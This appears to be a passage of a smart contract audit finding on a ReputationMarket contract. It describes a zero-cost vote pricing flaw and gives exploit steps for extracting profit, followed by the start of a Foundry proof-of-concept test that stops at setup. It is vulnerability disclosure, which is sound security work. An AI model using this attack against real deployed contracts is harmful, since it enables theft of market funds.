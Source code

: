 ### Impact

The vulnerability allows attackers to acquire votes without any cost, potentially leading to stealing value from the market once the votes are acquired.

### PoC
Exploit Steps:

1. Setup Initial Imbalance:
- A user purchases 98,000 trust votes, creating a significant disparity.
2. Exploit Zero-Cost Votes:
- Malicious users exploit the zero-cost calculation to acquire distrust votes at no cost.
3. Arbitrage Extraction:
- Attacker  extracts profit by selling acquired votes.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {ReputationMarket} from "../src/ReputationMarket.sol";
import {ContractAddressManager} from "../src/utils/ContractAddressManager.sol";
import {EthosProfile} from "../src/EthosProfile.sol";
import {Proxy} from "@openzeppelin/contracts/proxy/Proxy.sol";

contract ProxyTest is Proxy {
    address implementation;
    constructor(address implementation_) {
        implementation = implementation_;
    }
    function _implementation() internal view override returns (address) {
        return implementation;
    }
}

contract ReputationMarketExploitTest is Test {
    ContractAddressManager contractAddressManager;
    ProxyTest proxyReputationMarket;
    ProxyTest proxyEthosProfile;
    
    address owner = makeAddr("owner");
    address admin = makeAddr("admin");
    address signatureVerifier = makeAddr("signatureVerifier");
    address marketCreator = makeAddr("marketCreator");
    
    // Attack addresses
    address trustBuyingUser = makeAddr("trustBuyingUser");
    address untrustBuyingUser = makeAddr("untrustBuyingUser");
    address attacker = makeAddr("attacker");
    
    uint256 constant MARKET_ID = 2;
    uint256 constant LIQUIDITY_PARAMETER = 1000;
    uint256 constant BASE_PRICE = 0.01 ether;

    function setUp() public {
        console2.log("=== Setting up Test Environment ===");
        
        vm.startPrank(owner);
        
        // Deploy contracts
        ReputationMarket market = new ReputationMarket();
        EthosProfile ethosProfile = new EthosProfile();
        contractAddressManager = new ContractAddressManager();
```